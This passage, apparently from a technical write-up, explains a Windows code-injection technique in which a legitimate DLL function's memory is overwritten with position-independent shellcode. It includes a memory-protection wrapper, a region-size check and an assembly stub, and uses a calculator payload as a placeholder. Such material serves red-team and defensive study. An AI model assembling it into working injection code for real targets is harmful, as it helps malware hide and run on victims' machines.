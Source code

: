 
Loading the DLL from the system directory reduces the risk of DLL hijacking. `GetSystemDirectoryA` returns the system directory; the code concatenates the DLL filename and calls `LoadLibraryA`.

### Altering Memory Protection

```
BOOL SetMemoryProtection(LPVOID address, SIZE_T size, DWORD newProtect, PULONG oldProtect) {
    NTSTATUS status = NtProtectVirtualMemory(
        GetCurrentProcess(),
        &address,  // pointer to the address
        (PSIZE_T)&size,  // pointer to the size
        newProtect,
        oldProtect
    );
    return (status == 0);
}
```

This wrapper encapsulates the system call semantics. Note that both `address` and `size` are passed by pointer because the syscall may modify them.

### Suitability Check for Target Function

```
BOOL IsFuncSuitable(FARPROC funcAddr, SIZE_T requiredSize) {
    MEMORY_BASIC_INFORMATION mbi;
    if (VirtualQuery(funcAddr, &mbi, sizeof(mbi))) {
        if (mbi.State != MEM_COMMIT) return FALSE;
        SIZE_T availableSpace = (SIZE_T)mbi.BaseAddress + mbi.RegionSize - (SIZE_T)funcAddr;
        return (availableSpace >= requiredSize);
    }
    return FALSE;
}
```

This validates that the memory region is committed and that there is sufficient contiguous space to accommodate the required bytes. `mbi.RegionSize` represents the size of the whole region starting from `mbi.BaseAddress`.

### Payload Design

The payload must be position-independent code (PIC) because it will be executed at an arbitrary address. The document’s payload example launches the standard calculator shellcode. In practical cases, you would replace it with the desired functionality.

Payloads are typically authored in assembly and assembled to raw machine code. For instance, a minimalistic PIC snippet might look like:

```
start:
    call get_addr
get_addr:
    pop ebx
```
